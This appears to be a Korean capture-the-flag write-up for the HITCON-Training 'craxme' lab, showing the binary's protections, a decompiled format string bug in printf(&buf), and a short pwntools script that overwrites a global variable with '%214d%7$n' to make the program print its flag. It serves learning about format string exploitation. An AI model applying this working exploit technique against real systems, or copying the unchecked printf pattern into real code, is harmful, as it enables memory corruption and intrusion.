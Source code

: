 # 문제
***

craxme 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
craxme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2b264eb7dfa7fe74e2dce2cf802a6b5300737b65, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...
  ...
  read(0, &buf, 0x100u);
  printf(&buf);
  if ( magic == 218 )
  {
    system("cat /home/craxme/flag");
  }
  else if ( magic == 0xFACEB00C )
  {
    system("cat /home/craxme/craxflag");
  }
  else
  {
    puts("You need be a phd");
  }
  return 0;
}
```

magic에 저장된 값이 218이면 flag 값을 읽어온다.
그리고 if문에 들어가기 전에 호출하는 printf에 format string bug가 존재한다.

## exploit 방법
printf(&buf)를 하는 시점에 esp 값과 buf의 주소는 다음과 같다.
esp 값   -> 0xffffcef0
buf 주소 -> 0xffffcf0c 

따라서 buf에서 magic의 주소값을 넣어주면 fsb를 통해서 magic에 원하는 값을 쓸 수 있다.  

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab8/craxme"

p=process(file_path)

p.recvuntil("magic :")

magic=0x0804a038

pay=p32(magic)
pay+="%214d"
pay+="%7$n"

p.send(pay)

time.sleep(0.1)

print p.recv(1000)
```

# 알게 된 것
***
1. "%숫자$n" 을 통해서 n+1번째 인자에 접근할 수 있다.
2. 위의 문제에서 send를 하고 바로 recv를 하면 ```system("cat /home/craxme/flag");```이 실행되기 전에 출력된 값만 recv하고 파이썬 프로세스가 종료된다. 따라서 send와 recv 사이에 time.sleep 함수를 넣어주어야 한다.

